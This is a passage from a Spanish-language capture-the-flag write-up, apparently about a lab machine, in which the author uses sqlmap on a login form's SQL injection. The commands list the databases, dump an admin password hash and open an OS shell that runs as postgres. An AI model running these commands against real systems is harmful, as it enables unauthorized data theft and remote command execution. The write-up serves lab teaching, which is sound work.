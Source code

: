 Después de enumerar un rato el panel (tampoco hay mucho) no encontré nada, así que vamos a probar a abusar de la SQLi a ver si encontramos mas información relevante.

# Abusing SQL Injection

Podemos utilizar `sqlmap` para abusar de esta inyección.
```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch --dbs

....
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

La base de datos `public` contiene una tabla `users`
```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch -D public --tables

.....
Database: public
[1 table]
+-------+
| users |
+-------+
```

Vemos un hash MD5 del usuario `admin` pero no conseguí crackearlo ni con `john` ni con `hashcat`
```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch -D public -T users --dump

.....
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

## Command Execution through SQL Injection -> Foothold
Inocentemente probé con el parámetro `--os-shell` que intenta ejecutar código en el sistema.

```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --os-shell --batch

....
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[23:00:52] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
```
